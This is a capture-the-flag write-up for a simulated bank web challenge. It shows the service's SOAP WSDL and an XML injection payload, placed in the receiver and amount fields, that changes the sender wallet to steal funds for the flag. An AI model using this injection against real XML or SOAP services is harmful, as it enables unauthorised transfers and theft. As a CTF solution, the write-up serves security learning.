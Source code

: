 This site is a simple bank application. After register, you will have 110 in your account. And by ``vip.php``, you need 1000000 to become important.

Any account can transfer to other acounts, but register need reCAPTCHA, so you can't register many accounts to make you important.

After a look at this site, we found there has a hint in ``for_developers.php``'s source code:

```
http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php
```

it returns 

```xml
<?xml version="1.0" encoding="utf-8"?><wsdl:definitions name="Bank"
             targetNamespace="urn:Bank"
             xmlns:tns="urn:Bank"
             xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
             xmlns:xsd="http://www.w3.org/2001/XMLSchema"
             xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
             xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
             xmlns="http://schemas.xmlsoap.org/wsdl/">

    <message name="BalanceRequest">
        <part name="wallet_num" type="xsd:decimal"/>
    </message>

    <message name="BalanceResponse">
        <part name="code" type="xsd:float"/>
        <part name="status" type="xsd:string"/>
    </message>

    <message name="internalTransferRequest">
        <part name="receiver_wallet_num" type="xsd:decimal"/>
        <part name="sender_wallet_num" type="xsd:decimal"/>
        <part name="amount" type="xsd:float"/>
        <part name="token" type="xsd:string"/>
    </message>

    <message name="internalTransferResponse">
        <part name="code" type="xsd:float"/>
        <part name="status" type="xsd:string"/>
    </message>

    <portType name="BankServicePort">
        <operation name="requestBalance">
            <input message="tns:BalanceRequest"/>
            <output message="tns:BalanceResponse"/>
        </operation>
        <operation name="internalTransfer">
            <input message="tns:internalTransferRequest"/>
            <output message="tns:internalTransferResponse"/>
        </operation>
    </portType>

    <binding name="BankServiceBinding" type="tns:BankServicePort">
        <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
        <operation name="requestBalance">
            <soap:operation soapAction="urn:requestBalanceAction"/>
            <input>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </input>
            <output>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </output>
        </operation>
        <operation name="internalTransfer">
            <soap:operation soapAction="urn:internalTransferAction"/>
            <input>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </input>
            <output>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </output>
        </operation>
    </binding>

    <wsdl:service name="BankService">
        <wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
            <soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php" />
        </wsdl:port>
    </wsdl:service>
</wsdl:definitions>
```

Seems we can transfer with soap client, but we don't know token. However, we could use XML injection here. when we submit a transfer with such receiver and amount:

```xml
1401</receiver_wallet_num><sender_wallet_num xsi:type="xsd:decimal">1337</sender_wallet_num><!--
```

```xml
--><amount xsi:type="xsd:float">1000000
```

We will get 1000000 money.

After use ``requestBalance``, we will find there are much money in ``1337``.
So we stole 1000000 from it and get the flag.
